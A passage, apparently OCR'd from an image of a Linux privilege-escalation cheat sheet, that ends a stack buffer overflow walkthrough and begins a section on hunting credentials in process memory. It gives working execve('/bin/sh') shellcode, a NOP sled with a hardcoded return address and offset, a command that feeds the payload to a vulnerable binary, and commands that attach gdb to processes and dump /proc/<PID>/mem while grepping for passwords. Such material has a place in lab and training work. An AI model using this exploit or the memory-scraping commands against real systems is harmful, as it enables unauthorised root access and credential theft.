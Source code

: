         # Shellcode from msfvenom for execve("/bin/sh")
        shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
        
        # Address to jump to (e.g., address of buffer). Find with 'info frame' in gdb.
        ret_addr = struct.pack("<I", 0xffffd6a0) 

        # Offset found in step 1 (e.g., 212)
        offset = 212
        nops = b"\x90" * (offset - len(shellcode))

        payload = nops + shellcode + ret_addr
        print(payload.decode('latin-1'))
        ```
    3.  **Execute:**
        ```bash
        ./vuln "$(python exploit.py)"
        ```

### ### Credential Hunting in Process Memory
* **What it is:** Sometimes processes (like a login daemon or application server) will temporarily hold plaintext credentials in their memory space. As root, you could inspect this, but even as a low-privilege user, you may be able to inspect memory of processes you own.
* **Find:** Look for processes you can debug or read the memory of.
    ```bash
    # GDB can attach to a running process you own
    gdb -p <PID>

    # (as root) Grep through the entire memory space of a process for password patterns
    cat /proc/<PID>/maps
    dd if=/proc/<PID>/mem bs=1M | grep "password"
    ```
